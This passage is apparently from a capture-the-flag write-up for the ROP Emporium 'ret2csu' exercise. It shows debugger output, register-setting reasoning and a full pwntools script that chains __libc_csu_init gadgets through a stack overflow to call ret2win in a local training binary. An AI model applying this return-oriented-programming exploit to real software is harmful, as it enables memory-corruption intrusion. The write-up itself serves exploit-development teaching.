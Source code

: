 Or we can find it using the `DYAMIC` variable:

```
gef➤  x/4g &_DYNAMIC
0x600e20:    0x0000000000000001    0x0000000000000001
0x600e30:    0x000000000000000c    0x0000000000400560
```

So the value we will set `R12` will be `0x600e38`, which will end up calling `_init`. We will set `RBX` to zero, that way it doesn't interfere with the call. For the compare it will be incremented to `1`, so we will need to set `RBP` to `1` to pass it. After that we will just need filler values for the rest of the `POPS`. After that we can just call `ret2win`, and do to our previous work we will have `RBX` set to `0xdeadcafebabebeef`.

## Exploit

Putting it all together, we have the following exploit:

```
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX
    
# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```